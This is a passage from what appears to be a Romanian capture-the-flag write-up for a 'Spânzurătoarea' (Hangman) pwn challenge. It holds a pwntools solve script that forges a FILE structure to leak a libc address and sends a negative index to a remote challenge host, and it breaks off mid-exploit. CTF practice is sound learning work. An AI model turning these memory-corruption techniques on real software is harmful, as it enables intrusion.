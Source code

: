 Enunt:
```
Ai învățat până acum cum să joci Spânzurătoarea?
```

Script de rezolvare:
```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./spanzuratoarea_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.39.so")

context.binary = exe

context.terminal = ["tmux", "splitw", "-h"]


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("34.107.107.240", 30151)

    return r


def main():
    r = conn()

    # gdb.attach(r, gdbscript="""
    # break *0x4015BE
    # continue
    # """)

    # Initialize a FileStructure object
    fake_stdout = FileStructure()

    # Set up the fake stdout to include the leak to stderr
    fake_stdout.flags = 0x2  # Set flags to writable
    fake_stdout._IO_write_ptr = 1  # Write pointer position
    fake_stdout._IO_write_base = 0  # Write base position
    fake_stdout._IO_buf_base = 0  # Buffer base
    fake_stdout._IO_buf_end = 0  # Buffer end
    fake_stdout.fileno = 1  # File descriptor

    libc_addr = 0x403F98

    fake_chunk = flat(
        0xfbad0800, 0,
        libc_addr, 0,
        libc_addr, libc_addr + 0x8,
        0, 0,
        0, 0,
        0, 0,
        0, 0,
        1,
    )

    r.sendlineafter(b'M-am saturat', b'1')
    r.sendlineafter(b'cuvant', b'-5')
```